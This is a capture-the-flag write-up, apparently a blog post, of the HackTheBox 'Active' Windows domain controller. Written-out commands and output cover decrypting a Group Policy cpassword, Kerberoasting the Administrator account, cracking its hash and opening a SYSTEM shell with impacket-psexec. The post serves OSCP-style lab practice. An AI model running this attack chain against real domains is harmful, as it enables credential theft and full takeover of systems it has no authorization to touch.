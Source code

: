 ```yaml
---
title: "HTB: Active Write-up"
date: 2021-05-20 00:00:00 -0000
categories:
  - HTB
tags:
  - HTB
  - windows
  - active directory
  - SMB
---
```


Going back to Windows for my next challenge box from TJNull's [list of OSCP-like HackTheBox machines][htb-list]. "Active" is a Windows machine which involves some Active Directory based exploitation.

## Enumeration

For a change of pace, I decided to do this box without using AutoRecon. Instead, I started the old fashioned way with an `nmap` scan.

```bash
nmap -p- -T4 -sSV -oA active -v 10.10.10.100 --version-all
```

Looking at the `nmap` results, it seems like this is a Windows Domain Controller.

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-05-20 23:10:37Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49169/tcp open  msrpc         Microsoft Windows RPC
49171/tcp open  msrpc         Microsoft Windows RPC
49182/tcp open  msrpc         Microsoft Windows RPC
```

### SMB Spelunking

Lets begin by enumerating SMB. One of my favorite tools for enumerating SMB shares is [smbmap], which I used to enumerate all available shares. I ended up getting burned by this tool however, because I didn't RTFM carefully enough. I ran the following command.

```bash
smbmap -R -H 10.10.10.100
```

Which gave me the following output.

```
[+] IP: 10.10.10.100:445 Name: 10.10.10.100
        Disk                                                   Permissions Comment
 ----                                                   ----------- -------
 ADMIN$                                             NO ACCESS Remote Admin
 C$                                                 NO ACCESS Default share
 IPC$                                               NO ACCESS Remote IPC
 NETLOGON                                           NO ACCESS Logon server share
 Replication                                        READ ONLY
 .\Replication\*
 dr--r--r--                0 Sat Jul 21 06:37:44 2018 .
 dr--r--r--                0 Sat Jul 21 06:37:44 2018 ..
 dr--r--r--                0 Sat Jul 21 06:37:44 2018 active.htb
 .\Replication\active.htb\*
 dr--r--r--                0 Sat Jul 21 06:37:44 2018 .
 dr--r--r--                0 Sat Jul 21 06:37:44 2018 ..
 ...
```

I assumed that this output showed a complete coverage of what was contained in this share, but it turns out that it was actually missing the critical file for progressing forward. By default, the `smbmap` tool only recurses 5 levels deep into the directory structure, while the file that I was looking for was 6 levels deep. This setting can be changed with the `--depth` flag, which I used when I ran `smbmap` again (after a few hours of spinning my wheels).

```bash
$ smbmap -R -H 10.10.10.100 --depth 20
...
.\Replication\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\*
 dr--r--r--                0 Sat Jul 21 06:37:44 2018 .
 dr--r--r--                0 Sat Jul 21 06:37:44 2018 ..
 fr--r--r--              533 Sat Jul 21 06:38:11 2018 Groups.xml
```

The second run uncovered a few interesting files, including this Groups.xml file, which contains what appears to be user credentials.

### Groups.xml

```xml
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```

After some googling, it looks like these "cpassword" files just contain [an AES encrypted version of the user's password][cpass], and Micro$oft was even kind enough to publish the key to decrypt them! I found a python-based tool online that can decrypt these files using the published MS key, so I tried it against the Groups.xml file.

```bash
$ python3 gpp-decrypt.py -f ~/HTB/active/loot/Groups.xml
...
[ * ] Username: active.htb\SVC_TGS
[ * ] Password: GPPstillStandingStrong2k18
```

Looks like we got some credentials! Lets use [crackmapexec][cme] to verify that these creds work.

```bash
$ cme smb 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' -d active.htb
SMB         10.10.10.100    445    DC               [*] Windows 6.1 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.100    445    DC               [+] active.htb\SVC_TGS:GPPstillStandingStrong2k18
```

## Active Directory Exploitation

Now that `cme` has validated the creds, its time to do some Active Directory enumeration. The very first thing that I do when I get valid Active Directory user credentials is running [Bloodhound][BloodHound] to map out the target's AD environment. I like using fox-it's [python-based Bloodhound ingestor][bloodhound.py] because I can run it from Kali instead of on a Windows machine.

```bash
bloodhound-python -u SVC_TGS -p "GPPstillStandingStrong2k18" -d active.htb -c All -dc active.htb -ns 10.10.10.100 --zip
```

We can toss the output files from this into Bloodhound, then start doing some queries. One of the first queries I like to run "Shortest Paths from Kerboroastable Users" which looks for paths to high value targets starting from Kerboroastable users.

![Bloodhound Output](/assets/images/HTB/active/bloodhound.png)

It looks like the "Administrator" account is both a local admin on active.htb, *and* is Kerboroastable.

### And so we Kerboroast

Kerboroasting is an attack that exploits the underlying functionality of the Kerberos authentication system. People much smarter than I have done a much better job explaining it, so I would encourage you to do some googling if you haven't heard about it before :). We can use the "GetUserSPNs" script from impacket to retrieve the password hashes of all kerboroastable users in a format that `john` can easily ingest.

```bash
$ impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18 -target-domain active.htb -request -outputfile kerb.hashes -dc-ip 10.10.10.100
Impacket v0.9.23.dev1+20210127.141011.3673c588 - Copyright 2020 SecureAuth Corporation

ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon
--------------------  -------------  --------------------------------------------------------  --------------------------  -------------------------- 
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 15:06:40.351723  2021-01-21 11:07:03.723783
```

```bash
$ john --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt kerb.hashes
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Ticketmaster1968 (?)
1g 0:00:00:08 DONE (2021-05-20 20:00) 0.1122g/s 1182Kp/s 1182Kc/s 1182KC/s Tiffani143..Thurlow
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

The hash cracked, which means we should have the credentials for the local admin on `active.htb`. Again, I'll use `cme` to verify the creds.

```bash
$ cme smb 10.10.10.100 -u 'Administrator' -p 'Ticketmaster1968' -d active.htb
SMB         10.10.10.100    445    DC               [*] Windows 6.1 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.100    445    DC               [+] active.htb\Administrator:Ticketmaster1968 (Pwn3d!)
```

### Shell or Go Home

Pwn3d indeed. I could use `smbclient` to just retrieve the `user.txt` and `root.txt` flags, but I want to use these boxes as preparation for the OSCP, so its shell or bust. Impacket's "PSExec" script can be used to get a shell on a host when you have valid credentials.

```bash
$ impacket-psexec active.htb/Administrator:Ticketmaster1968@10.10.10.100 -dc-ip 10.10.10.100                                                                                                          1 ⨯
Impacket v0.9.23.dev1+20210127.141011.3673c588 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.100.....
[*] Found writable share ADMIN$
[*] Uploading file voslUSDJ.exe
[*] Opening SVCManager on 10.10.10.100.....
[*] Creating service oAyk on 10.10.10.100.....
[*] Starting service oAyk.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

Thanks for reading!

[htb-list]: https://docs.google.com/spreadsheets/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/edit#gid=1839402159
[autorecon]: https://github.com/Tib3rius/AutoRecon
[bad-keys]: https://github.com/rapid7/ssh-badkeys
[linpeas]: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
[tty-shell]: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#spawn-tty-shell
[smbmap]: https://github.com/ShawnDEvans/smbmap
[cpass]: https://adsecurity.org/?p=2288
[Bloodhound]: https://github.com/BloodHoundAD/BloodHound
[Bloodhound.py]: https://github.com/fox-it/BloodHound.py
[cme]: https://github.com/byt3bl33d3r/CrackMapExec
